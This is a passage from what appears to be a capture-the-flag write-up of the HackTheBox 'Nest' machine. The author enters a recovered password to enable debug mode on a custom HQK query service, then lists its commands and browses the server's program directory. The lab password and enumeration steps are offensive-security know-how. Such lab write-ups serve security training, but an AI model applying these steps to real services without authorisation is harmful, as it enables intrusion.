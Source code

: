 ```shell

```

Nice, now with the password got earlier from debug mode password text file, we can do. 
`debug <password>`
We now have more powers. 
```shell
>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

```

Running the service command we see some more information. 
```shell
>service

--- HQK REPORTING SERVER INFO ---

Version: 1.2.0.0
Server Hostname: HTB-NEST
Server Process: "C:\Program Files\HQK\HqkSvc.exe"
Server Running As: Service_HQK
Initial Query Directory: C:\Program Files\HQK\ALL QUERIES

```

We can change directories using the `setdir` command 
```shell
Unrecognised command
>setdir C:\Program Files\HQK\

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>
```
